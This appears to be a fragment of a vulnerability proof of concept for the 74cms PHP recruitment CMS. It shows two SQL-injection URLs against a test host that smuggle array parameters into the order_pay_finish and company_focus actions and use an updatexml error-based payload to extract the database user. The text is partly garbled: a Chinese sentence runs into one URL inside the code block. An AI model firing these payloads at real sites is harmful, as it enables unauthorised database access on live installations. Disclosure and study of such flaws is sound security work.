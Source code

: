 ![image](img/eb576065abe7eb8736ea73d185dfc7c0.png)

注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a `如果不登录的话，会显示这个样子

url:[http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus](http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus)` 
```

![image](img/7760a97c1d2c7f60acb4f89aa4e362f3.png)

```
http://74cms.test/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) -- a 
```
